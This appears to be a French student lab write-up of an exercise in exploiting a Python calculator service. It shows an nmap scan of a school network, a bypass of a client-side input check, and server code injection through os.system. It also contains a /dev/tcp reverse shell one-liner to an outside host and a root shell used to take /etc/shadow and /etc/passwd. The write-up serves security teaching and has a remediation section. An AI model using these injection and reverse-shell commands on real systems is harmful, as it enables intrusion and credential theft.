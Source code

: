 # TP5 : Exploit, pwn, fix


![Gunna be hax](./img/gunna_be_hacker.png)

## Sommaire

- [TP5 : Exploit, pwn, fix](#tp5--exploit-pwn-fix)
  - [Sommaire](#sommaire)
  - [0. Setup](#0-setup)
  - [1. Reconnaissance](#1-reconnaissance)
  - [2. Exploit](#2-exploit)
  - [3. Reverse shell](#3-reverse-shell)
  - [II. Remédiation](#ii-remédiation)

## 0. Setup

## 1. Reconnaissance


🌞 **Déterminer**

- à quelle IP ce client essaie de se co quand on le lance : 10.1.2.12

- à quel port il essaie de se co sur cette IP : 13337

Afin de pouvoir lancer le fichier client.py, il faut créer le dossier /var/log/bs_client, pour ensuite mettre le fichier client.py dedans. Il faut aussi créer un fichier bs_client.log afin de voir le retour du serveur. Lorsque nous lançons l'application client.py, nous pouvons ouvrir un wireshark et filtrer par tcp afin de voir sur quelle port et quelle addresse ip se connecte le client.


➜ **On me dit à l'oreillette que cette app est actuellement hébergée au sein de l'école.**

🌞 **Scanner le réseau**

- trouvez une ou plusieurs machines qui héberge une app sur ce port
- votre scan `nmap` doit être le plus discret possible : il ne teste que ce port là, rien d'autres

```bash
m4ul@thinkpad:~/Desktop$ sudo nmap -sS 10.33.64.0/20 -p 13337 --open
Starting Nmap 7.80 ( https://nmap.org ) at 2023-11-30 10:50 CET
Nmap scan report for 10.33.66.165
Host is up (0.0068s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 56:4C:81:26:BF:C8 (Unknown)

Nmap scan report for 10.33.70.40
Host is up (0.089s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: E4:B3:18:48:36:68 (Intel Corporate)

Nmap scan report for 10.33.76.195
Host is up (0.0077s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 82:30:BF:B6:57:2F (Unknown)

Nmap scan report for 10.33.76.217
Host is up (0.0064s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 2C:6D:C1:5E:41:6A (Unknown)

Nmap done: 4096 IP addresses (869 hosts up) scanned in 246.11 seconds
```


🦈 **tp5_nmap.pcapng**


🌞 **Connectez-vous au serveur**


[Fichier client modifié](/client.py)

## 2. Exploit

➜ **On est face à une application qui, d'une façon ou d'une autre, prend ce que le user saisit, et l'évalue.**

🌞 **Injecter du code serveur**

En lisant le code client non modifié, nous pouvons voir que c'est bien ce code qui verifie ce que nous voulions envoyer au serveur. En mettant donc les matchs de regex en commentaire, nous pouvons maintenant envoyer ce qu'on veut au serveur.

```python
#   match= re.match(pattern, userMessage)
  #  if match:
   #     num1, operator, num2 = match.groups()
    #    num1, num2 = int(num1), int(num2)

        # Vérifiez si les nombres sont dans la plage [-100000, 100000]
    if True:
        s.sendall(userMessage.encode("utf-8"))
        logger.info("Message envoyé au serveur %s : %s", host, userMessage)
        #else:
         #   raise ValueError("l'opération autorisée n'accepte que des nombres entiers compris entre -100000 et +100000")
  #  else:
   #     raise ValueError("l'opération autorisée n'accepte que les signes suivants (-,+,*) et des nombres entiers compris entre -100000 et +100000")
```

Nous pouvons maintenant essayer d'envoyer une commande au serveur pour qu'il puisse nous envoyer un ping:

```
$ sudo python3 client.py
Veuillez saisir une opération arithmétique : __import__('os').system('ping -c 10.33.70.30')
```

## 3. Reverse shell

➜ **Injecter du code c'est bien mais...**



🌞 **Obtenez un reverse shell sur le serveur**

```
$ sudo python3 client.py
Veuillez saisir une opération arithmétique : __import__('os').system('sh -i >& /dev/tcp/10.33.67.140/6969 0>&1')
```

🌞 **Pwn**

- voler les fichiers [`/etc/shadow`](shadow) et [`/etc/passwd`](passwd)

Afin de retrouver le code serveur, j'ai listé tous les processus en cours:

```
sh-5.1# ps -ef
ps -ef
UID          PID    PPID  C STIME TTY          TIME CMD
root        2312       1  0 11:46 ?        00:00:00 /usr/bin/python3.9 /opt/serv.py
root        2364    2312  0 11:55 ?        00:00:00 sh -c sh -i >& /dev/tcp/10.33.67.140/6969 0>&1
```

- voler le [code](serv.py) serveur de l'application 


- déterminer si d'autres services sont disponibles sur la machine:

On voit qu'il n'y a que le service sshd qui est disponible en plus du serveur python
```
sh-5.1# ss -ltunp
ss -ltunp
Netid State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess                             
tcp   LISTEN 0      1          10.0.3.15:13337      0.0.0.0:*    users:(("python3.9",pid=2312,fd=4))
tcp   LISTEN 0      128          0.0.0.0:22         0.0.0.0:*    users:(("sshd",pid=699,fd=3))      
tcp   LISTEN 0      128             [::]:22            [::]:*    users:(("sshd",pid=699,fd=4)) 
```



## II. Remédiation

🌞 **Proposer une remédiation dév**

- le code serveur ne doit pas exécuter n'importe quoi
- il faut préserver la fonctionnalité de l'outil

🌞 **Proposer une remédiation système**

- l'environnement dans lequel tourne le service est foireux (le user utilisé ?)
- la machine devrait bloquer les connexions sortantes (pas de reverse shell possible)
